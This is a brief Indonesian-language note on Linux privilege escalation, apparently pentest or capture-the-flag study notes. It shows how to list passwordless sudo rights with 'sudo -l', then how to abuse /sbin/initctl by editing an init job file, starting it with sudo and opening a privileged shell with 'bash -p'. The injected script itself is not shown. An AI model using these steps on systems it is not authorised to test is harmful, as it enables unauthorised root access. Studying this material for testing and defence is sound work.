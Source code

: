 # SUDO

buat cek mana yang bisa sudo tanpa password pake ini:

    sudo -l 

contoh output:

    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole

# /sbin/initctl

Privesc via /sbin/initctl

edit file `/etc/init/test.conf`
tambahin di dalem script
jalanin perintah: sudo /sbin/initctl start test
kalo dah jalan bakal begini: test start/running, process 11746

sekarang tinggal akses bash begini: bash -p
